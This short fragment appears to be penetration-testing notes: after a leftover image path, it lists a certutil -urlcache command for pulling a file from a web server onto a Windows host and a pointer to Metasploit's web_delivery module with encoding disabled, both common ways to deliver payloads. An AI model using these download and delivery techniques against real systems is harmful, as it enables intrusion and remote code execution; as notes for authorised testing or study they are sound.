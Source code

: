 

certutil -urlcache -f url_to_web_server/file_name file_name

msfmodule multi/script/web_delivery - read the info
 disable encoding

